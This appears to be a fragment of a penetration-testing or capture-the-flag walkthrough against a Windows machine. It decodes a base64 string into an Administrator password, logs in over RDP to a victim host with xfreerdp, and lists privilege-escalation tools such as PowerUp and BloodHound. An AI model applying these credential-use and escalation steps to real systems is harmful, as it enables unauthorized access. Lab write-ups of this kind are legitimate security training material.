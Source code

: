 

<figure><img src="../../../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
```

<figure><img src="../../../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"Administrator" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

## Privilege Escalation



## **Automated Enumeration Tools**

| Name                      | Link                                                                                                                                                                                  |
| ------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| WinPeas                   |                                                                                                                                                                                       |
| PowerUp.ps1               | [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 ](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) |
| Windows Exploit Suggester | [https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git](https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git)                                                        |
| SharpHound                | <pre><code>git clone https://github.com/BloodHoundAD/BloodHound.git
</code></pre>                                                                                                     |
| Powerview                 |                                                                                                                                                                                       |

